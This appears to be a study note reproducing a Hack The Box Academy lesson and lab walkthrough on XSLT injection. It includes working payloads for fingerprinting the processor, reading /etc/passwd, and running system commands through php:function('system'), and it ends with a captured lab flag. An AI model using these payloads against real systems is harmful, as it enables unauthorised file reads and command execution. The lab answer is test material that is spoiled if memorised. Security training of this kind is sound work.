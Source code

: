 ```yaml
---
sticker: lucide//languages
---
```

After discussing some basics and use cases for XSLT, let us dive into exploiting XSLT injection vulnerabilities. 

---

## Identifying XSLT Injection

Our sample web application displays basic information about some Academy modules:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_1.png)

At the bottom of the page, we can provide a username that is inserted into the headline at the top of the list:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_2.png)

As we can see, the name we provide is reflected on the page. Suppose the web application stores the module information in an XML document and displays the data using XSLT processing. In that case, it might suffer from XSLT injection if our name is inserted without sanitization before XSLT processing. To confirm that, let us try to inject a broken XML tag to try to provoke an error in the web application. We can achieve this by providing the username `<`:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_3.png)

As we can see, the web application responds with a server error. While this does not confirm that an XSLT injection vulnerability is present, it might indicate the presence of a security issue.

---

## Information Disclosure

We can try to infer some basic information about the XSLT processor in use by injecting the following XSLT elements:


```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

The web application provides the following response:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_4.png)

Since the web application interpreted the XSLT elements we provided, this confirms an XSLT injection vulnerability. Furthermore, we can deduce that the web application seems to rely on the `libxslt` library and supports XSLT version `1.0`.

---

## Local File Inclusion (LFI)

We can try to use multiple different functions to read a local file. Whether a payload will work depends on the XSLT version and the configuration of the XSLT library. For instance, XSLT contains a function `unparsed-text` that can be used to read a local file:

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

However, it was only introduced in XSLT version 2.0. Thus, our sample web application does not support this function and instead errors out. However, if the XSLT library is configured to support PHP functions, we can call the PHP function `file_get_contents` using the following XSLT element:


```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

Our sample web application is configured to support PHP functions. As such, the local file is displayed in the response:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_5.png)

---

## Remote Code Execution (RCE)

If an XSLT processor supports PHP functions, we can call a PHP function that executes a local system command to obtain RCE. For instance, we can call the PHP function `system` to execute a command:

```xml
<xsl:value-of select="php:function('system','id')" />
```

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_6.png)

# Question
---

![](Pasted%20image%2020250212153714.png)

Let's begin by identifying if the web application is vulnerable to XSLT:

![](Pasted%20image%2020250212153742.png)

If we use a test username, we can see it gets injected into the top side of the website, let's use `<` and check if an error occurs:

![](Pasted%20image%2020250212153834.png)

Page is broken, which means its vulnerable to XSLT, we can get RCE by submitting the following payload:

```xml
<xsl:value-of select="php:function('system','id')" />
```

![](Pasted%20image%2020250212153929.png)

We got RCE, let's read `/` directory:

```xml
<xsl:value-of select="php:function('system','ls /')" />
```

![](Pasted%20image%2020250212153953.png)

Found our flag:

```xml
<xsl:value-of select="php:function('system','cat /flag.txt')" />
```

![](Pasted%20image%2020250212154014.png)

Flag is:

```
HTB{3a4fe85c1f1e2b61cabe9836a150f892}
```

